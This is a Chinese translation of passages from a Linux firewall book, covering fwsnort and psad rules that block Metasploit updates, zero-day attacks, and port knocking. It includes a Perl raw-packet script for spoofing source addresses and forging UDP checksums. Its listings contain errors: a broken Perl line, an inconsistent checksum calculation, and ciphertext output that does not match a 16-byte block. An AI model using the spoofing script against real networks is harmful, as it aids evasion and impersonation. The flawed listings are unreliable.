如前所述，让 `fwsnort` 停止 Metasploit 更新过程的第一步，是将我们新的 Snort 规则转换为等效的 iptables 规则。为此，我们将 `metasploit.rules` 文件复制到 `/etc/fwsnort/snort_rules` 目录中并运行 `fwsnort`。由于我们专注于停止 Metasploit 更新，因此在调用 `fwsnort` 时使用了 `--ipt-reject` 命令行参数：

```
[iptablesfw]# cp metasploit.rules /etc/fwsnort/snort_rules
[iptablesfw]# fwsnort --snort-sid 900001 --ipt-reject
[+] Parsing Snort rules files...
[+] Found sid: 900001 in metasploit.rules
Successful translation
[+] Logfile: /var/log/fwsnort.log
[+] iptables script: /etc/fwsnort/fwsnort.sh
[iptablesfw]# grep -i metasploit /etc/fwsnort/fwsnort.sh
########## Adding metasploit rules ##########
# Adding metasploit rules to "
### alert tcp any 443 > $HOME_NET any (msg:"Metasploit exploit DB update";
flow:established; content:"cacert@metasploit.com"; classtype:misc-activity;
 sid:900001; rev:1;)
$IPTABLES -A FWSNORT_FORWARD_ESTAB -d 192.168.10.0/24 -p tcp --sport 443 -m
 string --string "cacert@metasploit.com" --algo bm -m comment --comment
 "sid:900001; msg: Metasploit exploit DB update; classtype: misc-activity; rev:
 1; FWS:1;0"] -j LOG --log-ip-options --log-tcp-options "--log-prefix [1] REJ
 SID900001_ESTAB "
$IPTABLES -A FWSNORT_FORWARD_ESTAB -d 192.168.10.0/24 -p tcp --sport 443 -m
 string --string "cacert@metasploit.com" --algo bm -j REJECT --reject-with
 tcp-reset
$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --sport 443 -m string --string
 "cacert@metasploit.com" --algo bm -m comment --comment "sid:900001; msg:
 Metasploit exploit DB update; classtype: misc-activity; rev:1; FWS:1;0"] -j
 LOG --log-ip-options --log-tcp-options "--log-prefix [1] REJ SID900001_ESTAB "
$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --sport 443 -m string --string
 "cacert@metasploit.com" --algo bm -j REJECT --reject-with tcp-reset
```

让我们在防火墙上执行上述 `fwsnort.sh` 脚本，将 iptables 变成一个针对 Metasploit 更新的检测和拦截机制：

```
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding metasploit rules
Rules added: 4
```

虽然我们有信心 iptables 不会允许与 `metasploit.com` Web 服务器的单个 SSL 会话成功建立，但我们仍然希望在会话关闭时创建持久的 iptables 阻断规则。为此，我们通过在 `/etc/psad/psad.conf` 中设置以下配置变量来使用 `psad` 的自动阻断功能：

```
ENABLE_AUTO_IDS Y;
AUTO_IDS_DANGER_LEVEL 4;
AUTO_BLOCK_TIMEOUT 3600;
ENABLE_AUTO_IDS_REJEX Y;
AUTO_BLOCK_REJEX ESTAB;
```

接下来，我们让 `psad` 意识到新的 `metasploit.rules` 文件。为此，我们在 `/etc/psad/snort_rule_dl` 文件中添加一个条目，将 Snort 规则 ID `900001` 映射到危险等级 `4`（这样 Metasploit 更新过程就会触发 `AUTO_IDS_DANGER_LEVEL` 阈值）：

```
[iptablesfw]# cp /etc/fwsnort/snort_rules/metasploit.rules /etc/psad/snort_rules
[iptablesfw]# echo "900001 4" >> /etc/psad/snort_rule_dl
[iptablesfw]# /etc/init.d/psad start
  * Starting psad...                                        [ ok ]
```

现在，尝试从 `int_scanner` 客户端系统更新 Metasploit exploit 数据库，结果失败：

```
[int_scanner$] cd framework-3.0
[int_scanner$] svn update
svn: PROPFIND request failed on '/svn/framework3/tags/framework-3.0': SSL negotiation failed:
Connection reset by peer (https://metasploit.com)
```

我们在 iptables 系统上的 `syslog` 中看到了以下消息。第一条消息表明 `fwsnort` 规则已通过 TCP Reset 数据包丢弃了该 SSL 会话。其余消息显示 `psad` 已针对 `metasploit.com` 的 IP 地址 `216.75.15.231` 实例化了一条为期一小时的阻断规则：

```
Jul 31 17:42:12 iptables fwkernel: RES PID 900001 ESTABLISHED IN=eth0 OUT=eth1 SRC=216.75.15.231 DST=192.168.10.200 LEN=1500 TOS=0x00 PREC=0x00 TTL=47 ID=19762 DP PROTO=TCP SPT=443 DPT=38528 WIN=4096 RES=0x00 ACK URG=0
Jul 31 17:42:14 iptables psad: rule src=216.75.15.231 signature match: "Metasploit exploit DB update" (sid 900001) tcp port: 38528 fwsnort chain: FWSNORT_FORWARD_ESTAB rule: 1
Jul 31 17:42:14 iptables psad: scan detected: 216.75.15.231 -> 192.168.10.200 tcp: [38528] flags: ACK tcp pkts: 1 DL: 4
Jul 31 17:42:14 iptables psad: added iptables auto-block against 216.75.15.231 for 3600 seconds
```

## 注意

由于我们的 Snort 规则检测的是来自 443 端口的 Metasploit SSL 证书，因此 `psad` 将流量来源视为连接的服务端而非客户端。结果，被 iptables 规则阻断的是 `metasploit.com` 的 IP 地址（`216.75.15.231`），而不是内部网络上的客户端 IP 地址（`192.168.10.200`）。`psad` 的即将发布的版本将允许你定义是要阻断与 `fwsnort` 日志消息关联的源 IP 还是目的 IP 地址。尽管如此，你仍然可以通过上述 "scan detected" syslog 消息来识别尝试进行 Metasploit 更新的客户端。

我们将以一封来自 `psad` 的查询电子邮件（完整形式如下）结束本章，该邮件详细说明了尝试进行 Metasploit 更新的具体情况：

```
From: root <root@cipherdyne.org>

Subject: [psad-alert] DL4 src: metasploit.com dst: int_scanner

To: mbr@cipherdyne.org

Date: Thu, 31 Jul 2008 17:42:14 -0400 (EDT)

- Danger level: [4] (out of 5)

- Scanned TCP ports: [38528: 1 packets]

- TCP flags: [ACK: 1 packets]

- iptables chain: FWSNORT_FORWARD_ESTAB (prefix "REJ SID900001 ESTAB", 1 packets)

- fwsnort rule: 1

    - Source: 216.75.15.231

    - DNS: metasploit.com

    - Destination: 192.168.100.20

    - DNS: [ No reverse dns info available ]

- Syslog hostname: iptables

- Overall scan start: Thu Jul 31 17:42:13 2007

- Total email alerts: 1

- Complete TCP scan ranges: [53003]

- Syslog hostname: iptablesfw

- Global stats: chain: INPUT interface: eth0 TCP: 1 UDP: 0 ICMP: 0

[+] TCP scan signatures:

"Metasploit exploit DB update"

flags: ACK

content: "cacert@metasploit.com"

sid: 900001

chain: FWSNORT_FORWARD_ESTAB

packets: 1

classtype: misc-activity

[+] Whois information:

OrgName: California Regional Intranet, Inc.

OrgId: CAII

Address: 8929A COMPLEX DRIVE

City: SAN DIEGO

StateProv: CA

Country: US

PostalCode: 92123

UserId: -

ReferralServer: rwhois://rwhois.cari.net:4321

NetRange: 216.75.0.0 - 216.75.63.255

CIDR: 216.75.0.0/18

NetName: CARI-4

NetHandle: NET-216-75-0-0-1

Parent: NET-216-0-0-0-0

NetType: Direct Allocation

NameServer: NS1.ASPADMIN.COM

NameServer: NS2.ASPADMIN.COM

Comment: -

RegDate: 2005-09-07

Updated: 2006-02-01

RTehHandle: ICG3-ARIN

RTehTitle: System Administration

RTehPhone: +1-858-974-5080

RTehEmail: sysadmin@cari.net
```


`OrgTehHandle: SYG0A5-ARIN`

`OrgTehName: sysadmin`

`OrgTehPhone: +1-858-974-5080`

`OrgTehEmail: sysadmin@cari.net`

# ARIN WHOIS 数据库

ARIN WHOIS 数据库最后更新于 2006-10-28 19:10。

输入`?`可获取有关搜索 ARIN WHOIS 数据库的其他提示。

```text
Found a referral to rwhois.cari.net:4321
trwhois V-1.5=003fff:00 wll.cari.net (by Network Solutions, Inc. V-1.5.9.5)
network:Auth-Area:216.75.0.0/18
network:Class-Name:network
network:ID:CARI-NET-37
network:Network-Name:CARI-NET-37
network:IP-Network:216.75.15.0/24
network:Org-Name:Complex Drive Business Internet
network:Street-Address:CA
network:City:San Diego
network:State:CA
network:Postal-Code:92123
network:Country-Code:USA
network:Tech-Contact:sysadmin@cari.net
network:created:20060113
network:updated-by:sysadmin@cari.net
%referral rwhois://root.rwhois.net:4321/auth-area=.
ok
```

在上面的代码列表中，❶ 捕获了目的 TCP 端口号`38528`，这是内部客户端系统选择的源端口。第 ❷ 行显示了由`fwsnort` `iptables`规则分配的日志前缀，❸ 是与`216.75.15.231` IP 地址关联的反向 DNS 主机名，❹ 标记了匹配数据包的具体细节，包括应用层字符串`"cacert@metasploit.com"`。最后，❺ 显示了与`216.75.15.231` IP 地址关联的完整 whois 信息。

> ⁶⁷⁴ Subversion（见 http://subversion.tigris.org）是一种极佳的源码（甚至二进制文件）变更跟踪机制。http://www.cipherdyne.org 上的所有项目都存储在 Subversion 仓库中，甚至编写本书所使用的文件在写作过程中也由 Subversion 进行跟踪。

> ⁶⁸⁵ 使用 Wireshark 中的“Follow TCP Stream”（跟随 TCP 流）功能可以非常方便地查看应用层数据。

## 结语

凭借 Snort 社区提供的旨在实现高效攻击检测的签名，`fwsnort` 和`psad`项目可以将您的`iptables`防火墙转变为一个能够检测并响应应用层攻击的系统。从本质上讲，这将`iptables`变成了一个基础的入侵防御系统，能够阻止大量攻击与本地系统套接字绑定的进程，或通过系统转发流量的远程客户端或服务器进行交互。在第 12 章和第 13 章中，我们将看到，通过使用默认丢弃（default-drop）数据包过滤器和单包授权（Single Packet Authorization），可以更稳健地阻止针对服务器的攻击。

# 第 12 章：端口敲门与单包授权

在本书的前面部分，我致力于讨论如何利用各种`iptables`功能以及`psad`和`fwsnort`来挫败基于网络的攻击。本章代表了对传统网络访问和安全模型的重大突破。在传统模型中，数据包过滤器被配置为允许访问网络服务，而应用安全则交给应用程序本身，并辅以基于签名的入侵检测系统（IDS）提供的（有限的）帮助。通过将`iptables`为一组受保护服务设置为默认丢弃状态，同时仅授予能够通过被动收集的信息向`iptables`证明其身份的客户端访问权限，我们可以为任意网络服务增加一个额外的安全层。

## 缩小攻击面

本书的主旨是利用 Netfilter 和`iptables`中的设施来检测并响应基于网络的攻击，因此乍一看，本章和下一章（涵盖 SPA 的`fwknop`实现）似乎有些不合时宜。然而，任何受默认丢弃数据包过滤器保护的服务，从根本上来说，除非重新配置过滤器以允许访问，否则任意潜在的客户端都无法访问。这意味着与此类服务建立的唯一会话必须是经过授权的；反之，这也意味着针对这些服务的攻击率和误报率都会降低。对于基于 TCP 的服务尤其如此，因为如今大多数入侵检测系统都维护一个 TCP 会话状态的概念，以便过滤掉那些在没有建立 TCP 会话的情况下通过网络伪造的虚假攻击。

由这种 IDS 监控的伪造攻击不会产生误报，而尝试通过已建立的 TCP 会话交付真实攻击将会失败，因为由于默认丢弃数据包过滤器的存在，会话根本无法建立。因此，端口敲门（port knocking）和 SPA 减少了对网络服务实施攻击的手段。我们将看到，`iptables`提供的功能可以使实现高效的端口敲门和 SPA 系统变得简单。为 SSHD 等服务增加这一额外的安全层，可能就是被攻破与保持安全之间的关键区别。

## 零日攻击问题

考虑到过去几年在软件安全方面投入的所有努力——尤其是像 OpenBSD 和 OpenSSH 这样的开源项目——新发现的漏洞数量似乎应该在下降。然而，各种软件中发现新漏洞的速度却在不断加快<sup>60</sup>，且短期内看不到缓解的迹象。

**注意**

Bugtraq、Full-disclosure 和 Vuln-dew 邮件列表非常活跃，并就一些最新的漏洞利用（exploits）和攻击技术提供优秀的技术信息和讨论。一些整家公司（如 iDefense —— 详见 http://www.idefense.com）已经建立起基于漏洞追踪的商业模式，为用户提供充当漏洞预警系统的服务。iDefense 甚至向漏洞研究人员支付费用以获取新漏洞的利用方法，以换取优先发布权。

商业世界中创建的大多数软件是为了最大化利润而为客户开发的，而非为了安全性。然而，随着高知名度安全问题的出现，如网络钓鱼、间谍软件、身份盗窃，以及针对微软系统的破坏性蠕虫（如 Code Red 和 SQL Slammer 蠕虫），公司开始更加重视安全性。

诸如大型金融机构个人数据被窃等事件，也在立法者眼中广泛提升了计算机和物理安全问题。加利福尼亚州已通过立法，要求公司在敏感信息被第三方非法获取时必须通知消费者（更多信息请参阅 http://www.privacyrights.org/ar/itlawsca.htm）。

**注意**

我将克制不对关于微软操作系统和应用程序是否天生比其他操作系统和软件更不安全的、近乎宗教式的争论发表评论。无论如何，有一点很明确：微软软件的普遍性与其易被攻击的特性相结合，导致全球基础设施存在显著的安全缺陷。这为恶意软件创造了一个目标丰富的环境。

但是，计算机和软件究竟有什么特性，使它们在面对决心坚定的攻击者时显得如此脆弱？为什么安全漏洞如此常见？为什么缓冲区溢出漏洞仍然广泛存在，尽管这种技术在几十年前就已经被演示过了？我们难道不应该在很久以前就消灭这类 Bug 吗？

我不会对这些问题给出冗长的回答，以免我们将话题带离主线而深入到堆栈加固（stack hardening）和内核模式保护等技术中，我仅做几点观察。

第一，软件总是依赖于一个实现，且不存在一种机制能严谨地验证一段软件是绝对安全的。任何实现中的 Bug 都可能让在理论上完善的软件设计暴露在安全问题面前。

第二，考虑 OpenSSH 项目（详见 http://www.openssh.org）。OpenSSH 是由世界上最敏锐、最注重安全的开发人员编写的，但即便如此，OpenSSH 仍被发现存在漏洞。这告诉我们，编写无 Bug 的软件真的很难，即使是最顶尖的安全开发人员也会犯错。

### 零日攻击的发现

当有人在一段软件中发现之前未被发现的安全漏洞并为其编写利用代码时，就创造了一个零日攻击。在一段时间内，这个人是世界上唯一知道该漏洞的人，他或她有两种选择：克制不使用该利用代码并通知软件供应商以便其修复，或者为了个人利益使用该利用代码且不通知任何人。显然，后一种选择对软件用户构成了最大的威胁，而且黑帽和白帽黑客都在越来越多地发现零日漏洞。

### 对基于签名的入侵检测的影响

对于基于签名的入侵检测系统供应商来说，这里有一个有趣的问题：如何编写一个签名来检测针对零日漏洞的攻击？尽管一些市场部门可能会这么说，但答案是，此类漏洞利用通常无法被检测到，因为只有发现漏洞的那个人知道该漏洞的存在。要为一个甚至无法被描述的攻击编写签名是极其困难的。

这并不是说没有任何有用的措施可以采取；Snort 规则集中的几个签名旨在通用地检测攻击者在获得提升权限后以可疑方式使用系统的尝试。这有时可以让 Snort 检测到零日攻击的影响（即：当攻击者在获得访问权限后实际尝试使用受损系统时），而无需必然检测到攻击本身。例如，`shellcode.rules`文件中的规则会寻找许多公开可用的漏洞利用代码中共同的 shellcode 特征。攻击者可能会将这些现成的 shellcode 片段（可以实现创建反向 shell 等功能）与一种新攻击结合使用。代码复用在计算机地下世界中与在软件开发的其他领域一样有用。通用检测可疑活动的另一个例子是 Snort 规则 ID 1341 和 1342，它们寻找通过 HTTP 会话执行`gcc`编译器的尝试。如果 Snort 为其中一条规则产生警报，那么无论 Web 服务器是否已被某个……

无论是否为零日攻击，该警报都标志着检测到了成功漏洞利用的潜在影响，因为目标系统正被以一种可疑的方式使用。

零日漏洞问题促使了一类新型安全供应商的出现，他们开发网络异常检测系统（Network Anomaly Detection Systems），这类产品旨在检测计算机网络内部的异常行为。这些产品的目标是检测攻击者在成功攻破系统后使用网络内系统的方式。但需要提醒的是：截至本文撰写之时，我还没有看到任何一家供应商能以足够具体且有用的方式定义什么是异常（anomaly）。

问题在于，网络表现出如此惊人的异构性，以至于很难区分常规行为和异常行为。然而，针对网络和单个主机的这一领域已有大量研究，并写有一些优秀的论文<sup>70</sup>。尽管商业领域和学术界都在积极寻求减轻未知漏洞攻击影响的解决方案，但目前尚未存在通用的解决方案。

## 纵深防御

既然我们已经初步了解了网络服务中潜伏漏洞的危险，我们可以在维护系统安全的努力中采用纵深防御原则。纵深防御（Defense in depth）在之前的章节中曾结合使用`iptables`增强 IDS 基础设施的背景提到过，它要求通过分层部署多种防御机制来增强系统的安全性。我们很快会看到，本章讨论的两种技术——端口敲门（port knocking）和 SPA，都很好地符合这一准则。

> $^{69}$ $^1$ SecurityFocus 维护着一个可搜索的安全漏洞数据库，可通过 http://www.securityfocus.com/bid 免费访问。该数据库每天大约增加 50 个新漏洞。
>
> $^{70}$ $^2$ 例如，Steven A. Hofmeyr 在 1996 年 IEEE 会议上发表的《A Sense of Self for UNIX Processes》，研究了 Sendmail 和 lpr 在正常情况与受攻击情况下所产生系统调用序列的统计离群值。您可以在 http://www.cs.unm.edu/~immsec/publications/ieee-sp-96-unix.pdf#search=%22a%20sense%20of%20self%20for%20processes%22 下载该论文。

## 端口敲门

2003 年，Martin Krzywinski 在《SysAdmin》杂志的一篇文章中向安全社区介绍了一个绝妙的概念，称为端口敲门[71]。端口敲门（Port knocking）是通过关闭的端口传输身份验证数据，从而允许服务（如 SSHD）隐藏在配置为默认丢弃（default-drop）状态的数据包过滤器之后。任何希望通过默认丢弃数据包过滤器连接到受保护服务的客户端，必须首先证明其拥有有效的端口敲门序列。如果客户端产生了正确的敲门序列（例如，按正确的顺序连接到序列中的每个组成端口），那么数据包过滤器将被临时重新配置，允许发送该序列的 IP 地址在短时间内连接到受保护的服务。

通常，端口敲门系统要么监控防火墙日志，要么使用原始数据包捕获机制（如`libpcap`），以便从端口敲门客户端收集敲门序列。我们稍后会看到，`iptables`的日志消息非常适合提供必要的端口敲门序列数据。我们还将看到，虽然端口敲门是一项具有强大创新力的重要技术（即在默认丢弃的数据包过滤器后保护服务），但一项名为 SPA 的相关技术在提供与端口敲门相同好处的同时，消除了其许多局限性。但首先，我们需要了解一些关于端口敲门的背景知识。

端口敲门迅速获得了成功，安全领域出现了近 30 种已知的端口敲门方案实现，每种实现都对端口敲门的概念进行了略有不同的调整。例如，`cd00r`和`portkey`使用 TCP SYN 数据包来传输端口敲门序列，而 Tumbler 则使用数据包负载（payloads）来发送哈希后的身份验证数据。（更多端口敲门方案的示例，请参阅 http://www.portknocking.org。）我们稍后会看到，并没有什么规定禁止使用数据包负载（而不仅仅是数据包头）来发送身份验证数据——在这样的实现中，依然可以将服务隐藏在默认丢弃的数据包过滤器之后。

端口敲门序列可以是一组共享的、未加密的端口，也可以是一组使用对称加密算法（如 Rijndael[72]）加密的端口（这些方案的详情可见第 218 页的“共享端口敲门序列”和第 221 页的“加密端口敲门序列”）。

图 12-1 展示了一个网络图，其中端口敲门客户端被用来向运行着`iptables`防火墙和端口敲门服务器的 Linux 系统生成端口敲门序列。由于端口敲门不需要双向通信（例如建立 TCP 连接所需的三次握手），端口敲门序列可以通过伪造的 IP 地址发送。这允许端口敲门序列源自任意 IP 地址，但敲门服务器将接受连接到受保护服务的实际源 IP 地址被编码在序列本身之中。

例如，你可以伪造一个序列，使其看起来像是源自源 IP 地址 22.1.1.1，并发送到运行在 IP 地址 33.2.2.2 上的敲门服务器。然而，你将用来发起连接的真实源 IP 地址是 207.44.10.34。通过将 207.44.10.34 地址编码在序列中，敲门服务器会向你的真实 IP 地址授予访问权限，而不是伪造的源 IP 地址 22.1.1.1。在端口敲门序列中包含真实源 IP 地址只有在序列被加密时才真正有用，因为恶意第三方将无法截获伪造序列并轻易得知真实连接将从何处发起。虽然图 12-1 中没有明确标出，但可以理解为客户端系统在尝试向`iptables`系统发起 SSH 连接之前，先生成了端口敲门序列。



图 12-1：一个端口敲门网络

### 挫败 Nmap 和目标识别阶段

端口敲门序列由一个端口敲门服务器监控，该服务器负责通过被动手段监控网络——例如，通过监控防火墙日志文件或借助`libpcap`等数据包捕获机制在接口上进行嗅探。使用端口敲门系统的最终结果是，对于任何无法监控进出网络流量的人来说，服务都是不可见的。即使是`Nmap`也无法发现服务受到了默认丢弃数据包过滤器的保护；无论攻击者是否拥有零日漏洞利用程序都没有区别<sup>73</sup>。

### 共享端口敲门序列

共享端口敲门序列是由端口敲门客户端和服务器约定的一组有序端口。当网络中出现此序列时，默认丢弃的数据包过滤器会被重新配置，允许发送该序列的 IP 地址访问特定端口。例如，为了获得对运行在 TCP 端口 22 上的 SSHD 的访问权限，客户端可能必须首先向 TCP 端口 5005、5008、1002 和 1050 发送 SYN 数据包。如果将此类敲门序列发送到配置为记录发送至关闭端口数据包的`iptables`防火墙，该序列看起来像下面这样（目标端口号以粗体突出显示；TCP SYN 标志以粗体显示）：


进入`/var/log/messages`目录，使用`tail -f`命令实时查看系统日志，如下所示：

```
[root@firetables ~]# tail -f /var/log/messages
 Oct 30 21:39:38 iptables kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:11:43 arp:00:1a:4b:00:2a:0c cc:28:42:5a:08:00 SRC=134.X.X.X DST=144.X.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=8622 PROTO=TCP SPT=47024 DPT=5005 WINDOW=5840 RES=0x00 SYN URGP=0 OPT 0(20405840204080204FA79000000001030302)
 Oct 30 21:39:41 iptables kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:11:43 arp:00:1a:4b:00:2a:0c cc:28:42:5a:08:00 SRC=134.X.X.X DST=144.X.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=57989 PROTO=TCP SPT=52525 DPT=5008 WINDOW=5840 RES=0x00 SYN URGP=0 OPT 0(20405840204080204FA79000000001030302)
 Oct 30 21:39:44 iptables kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:11:43 arp:00:1a:4b:00:2a:0c cc:28:42:5a:08:00 SRC=134.X.X.X DST=144.X.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=11110 PROTO=TCP SPT=47024 DPT=5005 WINDOW=5840 RES=0x00 SYN URGP=0 OPT 0(20405840204080204FA79000000001030302)
 Oct 30 21:39:53 iptables kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:11:43 arp:00:1a:4b:00:2a:0c cc:28:42:5a:08:00 SRC=134.X.X.X DST=144.X.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=18165 PROTO=TCP SPT=47024 DPT=5007 WINDOW=5840 RES=0x00 SYN URGP=0 OPT 0(20405840204080204FA79000000001030302)
```

一旦端口敲门服务器从`/var/log/messages`文件中监测到端口敲门序列，`iptables`就会被重新配置，以允许临时访问 SSH 等服务。

端口敲门序列除了 TCP 之外，还可以涉及其他互联网协议：UDP、ICMP，甚至可以将这三种协议同时组成一个序列。这样一个序列可能看起来像：`TCP/10001`, `UDP/2300`, `ICMP Echo Request`, `TCP/6005`, `UDP/3000`。

**注意**

在端口敲门序列中包含 ICMP 数据包是对端口敲门定义的轻微扩展，因为 ICMP 没有“端口”的概念。但这并不是严重的违规，因为端口敲门本质上是在数据包头中编码信息；没有什么禁止在序列中使用 ICMP。

事实上，TCP 或 UDP 报头中除端口字段以外的其他字段也可以用来在端口敲门序列中编码额外信息。例如，UDP 报头中的 16 位校验和（`checksum`）字段可以由端口敲门客户端手动设置为预定值，而端口敲门服务器可以被开发为仅在校验和与该值匹配时，才将该 UDP 数据包视为序列的一部分。列表 12-1 显示了一个 Perl 脚本，它允许用户针对任意 UDP 端口将 UDP 报头中的校验和字段构造为指定的十六进制值。

**注意**

此脚本可在 `http://www.cipherdyne.org/linuxfirewalls` 获取。您将需要

为了运行它，需要安装来自 CPAN 的 `Net::RawIP` Perl 模块（参见 `http://search.cpan.pan.org/~skolychev/net-rawip-0.2/rawip.pm`）。

当然，从协议的角度来看，手动定义的校验和值几乎肯定是非法的，因此，敏锐的观察者可能会在网络流量中注意到它们。一些以太网嗅探器（如 Wireshark，参见 `http://www.wireshark.org`）会自动根据数据包头和数据验证校验和值，并在发现任何差异时向用户发出警告。`Netfilter`（自 2.6 内核系列起）也可以通过其连接跟踪系统验证校验和值。

```perl
$ cat craft_udp_checksum.pl
#!/usr/bin/perl -w

use Net::RawIP;
use strict;

my $src = $ARGV[0] || &usage();
my $dst = $ARGV[1] || &usage();
my $port = $ARGV[2] || &usage();
my $sum = $ARGV[3] || &usage();

$sum = hex $sum;

my $raw_udp = new Net::RawIP({
    ip => {
        saddr => $src,
        daddr => $dst
    },
    udp => {}
});

$raw_udp->set({
    ip => {
        => {},
        saddr => $src,
        daddr => $dst
    },
    udp => {
        source => 30401,
        dest => $port,
        check => $sum
    }
});

printf "[+] Sending UDP packet $src -> $dst (sport) with checksum %x\n", $sum;
$raw_udp->send();

exit 0;

sub usage() {
    die "[*] $0 <src> <dst> <port> <checksum>";
}
```

**Listing 12-1: 一个 UDP 校验和伪造脚本**

如果你按照以下方式执行上述脚本并使用以太网嗅探器观察 UDP 数据包，你可以清楚地看到从命令行提供的伪造校验和`0xdeed`（以粗体显示）：

```text
# . /craft_udp_checksum.pl 192.168.10.3 192.168.10.1 5005 deed
# tcpdump -i eth1 -n -nn -S -e 0 -X port 5005
tcpdump: verbose output suppressed, use -v or --vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
02:21:46.5478 IP 192.168.10.3 > 192.168.10.1.5005: UDP, length 0
0x0000: 4510 001c 0000 4000 4011 a5e6 c0a8 0a03 E..... ..8.1....
0x0010: c0a8 0a01 76c1 138d 0008 deed 0000 0000 .V................
0x0020: 0000 0000 0000 0000 0000 0000 0000 0000
```

## 加密端口敲门序列

端口敲门序列可以使用对称加密算法进行加密，例如美国国家标准与技术研究院 (NIST) 为美国高级加密标准 (AES) 选择的 Rijndael 算法。这为端口敲门序列引入了一个强大的加密层，代价是需要承担强制性的相关密钥管理。

为了防止被窥视，将尽可能多的信息编码到加密的端口敲门序列中是有利的。至少，应在加密负载中编码允许通过数据包过滤器访问的源 IP 地址，以及协议和端口号，并注意以下几点：

- IP 地址是一个 32 位无符号整数，可以用四个 8 位值表示——例如`187.23.1.4`。

- 协议号是一个 8 位值——例如`1` (ICMP)、`6` (TCP) 或`17` (UDP)。

- 端口号是一个 16 位无符号短整数，可以用两个 8 位值表示——例如`6000 = (0x17 << 8) | 0x70`。

为了按顺序表示 IP 地址、协议和端口号，我们需要 7 个字节的信息。如果我们希望端口敲门服务器向 IP 地址`207.44.10.34`开放 TCP 22 端口，我们需要加密字节`6`, `22`, `207`, `44`, `10`和`34`，即`0x06`, `0x16`, `0xcf`, `0x2c`, `0x0a`和`0x22`。

由于 Rijndael 算法的最小块大小为 16 字节，我们必须填充剩余的 9 个字节。让我们用 8 个字节表示用户名，1 个字节作为一种简单的校验和值。对于用户名，我将使用我的`mbr`用户名，或其等效的十六进制字节：`0x6d`, `0x62`, `0x72`（根据需求填充五个零）。

最后，我们将校验和计算为所有值的总和对 256 取模：

```text
(0x06 + 0x16 + 0xcf + 0x2c + 0x10 + 0x22 + 0x6d + 0x62 + 0x72) % 256 = 0x96
```

因此，我们未加密的端口敲门序列如下所示：

```text
0x06 (TCP)
0x00 (Port 22 高位)
0x16 (Port 22 低位)
0xcf (207)
0x2c (44)
0x10 (16)
0x22 (34)
0x6d (m)
0x62 (b)
0x72 (r)
0x00 (重复五次)
0x96
```

现在，我们不希望将敲门数据包发送到 TCP 22 端口或任何其他知名端口，因为这些端口很可能已经在处理流量，如果端口敲门服务器必须将此类流量纳入计算，将造成不必要的负担。因为敲门序列中的每个字节都可以表示为单个字节的信息（0 到 255），我们将`64400`到`64650`的端口范围指定为敲门序列的端口范围。也就是说，我们将给加密序列中的每个端口值加上`64,400`。我们的最终序列由以下 Perl 程序生成，该程序使用了 Rijndael 算法和加密密钥`knockingtest`：

```perl
$ cat enc_knoc.pl
#!/usr/bin/perl -w

use Crypt::CBC;
use strict;

my @clearvals = (0x06, 0x00, 0x16, 0xcf, 0x2c, 0x10, 0x22, 0x6d,
                0x62, 0x72, 0x00, 0x00, 0x00, 0x00, 0x00, 0x96);

my $key = 'knockingtest';
$key .= '0' while length $key < 32;

my $cipher = Crypt::CBC->new({
    'key'     => $key,
    'cipher'  => 'Rijndael',
    'header'  => 'none',
    'iv'      => 'testinitvectorab',
    'literal_key' => 1,
});

my $cleartext = '';
$cleartext .= chr($_) for @clearvals;

my $ciphertext = $cipher->encrypt($cleartext);
my @arr = split //, $ciphertext;
print 64400 + ord($_), ' , ' for @arr;
print "\n";

exit 0;

$ ./enc_knoc.pl
64591,64613,64641,64614,64434,64436,64436,64514,64514,64620,64498,64401,64482,64631,64565,64440,
64482,64643,64624,64569,64471,64462,64462,64493,64413,64476,64423,64484,64577,64567,
64623,64548,64599,64495
```

**Listing 12-2: 一个加密端口敲门序列示例**

## 注意

Listing 12-2 中`enc_knock.pl`脚本的输出需要通过网络发送才能作为真实的端口敲门序列发挥作用；这里的脚本仅用于演示加密端口敲门序列是如何生成的。`enc_knock.pl`脚本可在`http://www.cipherdyne.org/linuxfirewalls`获取。

## 端口敲门的架构限制

虽然端口敲门可以为可能包含未发现安全漏洞的网络服务提供额外的保护层，但端口敲门架构的一些特性使其显得有些脆弱，且无法扩展到企业级部署。这些限制源于使用数据包头作为数据传输机制，而不是使用应用层负载。正如我们很快将看到的，SPA（在第 226 页的“单包授权”中讨论）解决了传统端口敲门实现的许多限制。

### 序列重放问题

在当今的安全威胁环境下，我们应该假设所有在网络中传输的流量都被未知的第三方监控。坚定地坚持这一观点，会促使我们确保敏感信息（如信用卡号）仅以加密形式在网络上传输。

在端口敲门的情况下，没有数据包关联应用层数据，因此拦截端口敲门序列似乎没什么理由。

然而，端口敲门的目标是通过网络传输足够的信息，使接收方推断出应临时重新配置数据包过滤器，从而允许一个已通过敲门序列证明其身份的 IP 地址访问。如果攻击者可以在端口敲门序列在网络中传输时将其拦截，那么攻击者很容易在稍后向同一目标发送相同的敲门序列。这被称为重放攻击，因为攻击者在对目标重放敲门序列，试图获得与合法端口敲门客户端相同的访问权限。由于端口敲门仅使用数据包头，很难在端口敲门序列中构建足够的变量来阻止重放攻击。

